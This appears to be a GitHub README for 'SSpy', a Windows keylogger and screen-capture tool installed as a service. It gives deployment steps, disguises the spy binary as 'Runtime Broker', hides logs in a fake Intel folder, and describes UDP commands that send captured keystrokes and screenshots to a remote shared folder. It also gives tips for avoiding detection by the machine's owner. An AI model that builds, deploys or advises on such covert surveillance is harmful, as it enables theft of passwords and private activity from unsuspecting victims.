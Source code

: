 # SSpy
**Current version: 0.32 alpha**

SSpy is a keylogger & screenshoter based on the Windows system services. Once installed as a service, he is going to capture all data provided.

Program was tested on Windows 10 and was written in Visual Studio 17.

### More about application
Application is split between 2 programs. SSpy is a base application that handle service operations such as install, remove service and he also makes sure that Spy app works correctly. When SSpy start working, he will install Spy program named `Runtime Broker`, located `C:\\Windows` folder. After installation Spy application is running by itself and its job is to handle and save all keyboard input and capture screenshot provided by user to `timestamp.txt` and `timestamp.jpg` files located at `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`. And it also listens udp message and act by messages like start or stop service, send captured data, send any data in path by message from udp message app(this is another project, I named it `ai`). Captured screens are jpeg files and file size is normally 100KB per image. You can set image quality, file size is depend on image quality. Currently jpeg image quality is 30(of 100). If it's hard to recognize captured image, increase quality to 40 or 50 or even higher. But file size will be increased.
Keystrokes are logged in timestamp.txt(e.g. 0713164723.txt). Function keys like `Enter`, `Delete`, `Arrow Up`, ... are logged with unpersand(`&`)following key name and with space(e.g. ` &Enter `, ` &Delete `, ` &Up `). alphabet and numbers and special keys(`~!@#$%^...`) are stored as character. Space is also stored as character(` `). `Enter` and `Tab` makes new line in log file. Every new line has its timestamp when first character of line is stored. Keylog file will be made newly with current timestamp if there's no keylog file in folder. If file exist, key strokes are stored to existing log file.

##### Action by Message
1 - start capture
2 - pause capture
3 - send captured data, delete after send, continue capture
4 - send captured data, delete after send, pause capture
path - send any data in path followed argument.(e.g. `ai send xx.xx.xx.xx:80 d:\\foldername`)
**important note: I couldn't test with folder which its name contain space like "dev tools" or "windows 10".
if you give space, the word followed space will be set as next argument. if you need to copy even folder with space in its name, contact me.**

You are using this application at your own risk.

### Working On
- [ ] change hardcoded paths
- [ ] major improvements to Spy application
- [ ] help

### How to use this application

##### Before Compile
1. You need to share a folder with write permission
2. At other's computer, open your shared folder, enter your username and password to open. It will help Spy app to send captured data to this shared folder.
3. Replace your ip address and shared folder name in Spy project/Spy.cpp/#38: `remotepath` e.g. `\\\\192.168.1.3\\sharedfolder\\`
4. Replace capture screenshot time interval(currently it's 2 second. it means capture 1 screen in every 2 seconds)

##### Compile
Compilation is handled manually for now. To compile this program you need **Windows Vista or later and a C compiler**.
I compiled with Visual Studio 2022(17.10.4) in Windows 10.
SSpy uses wtsapi32.lib, Userenv.lib and Spy uses gdiplus.lib, ws2_32.lib, Pathcch.lib. ai uses ws2_32.lib. Add them to project property/Configuration properties/Linker/Input/Additional Dependencies. Or add `#pragma comment(lib, "ws2_32.lib") ... ` in cpp files. Some libraries might be useless, I'm not sure.

##### Install / Remove service
1. Make sure that SSpy and Spy is compiled & rebuilded and copy Spy.exe to `C:\\windows` and change file name to `Runtime Broker`(without any file extension).
2. To install service, in the folder where `SSpy.exe` exist, open CMD.exe console with Administrator permission and write `SSpy.exe install` command. You can install simply by Run as administrator `SSpy.exe`.
3. I'm not sure reboot OS is required or not. I tested without reboot but it works well.
4. After install, open service manager(Win + R, services.msc) and start `Runtime Broker Service`.
5. If firewall asks to allow app, click OK.
Service starts capture and stores captured data to `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`

There's nothing more to do. Captured data will take some capacity of hard disk, so take care to send captured data regularly or at least pause capture. Otherwise owner might detect by increasing hard disk used data capacity. one image file size is 100KB. capture 1 image per 2 second. It means 50KB/s. 50KB * 60 * 60 * 24 * 4 = 17280000KB If you didn't copy and delete captured data for 4 days, stored data size would be 17.28GB. If you take one per 5s, it will decrease to 6.912GB. hh

To uninstall service, in step 2 write command `SSpy.exe remove`

### Appendix
Check Readme in ai project to learn how to control spy app.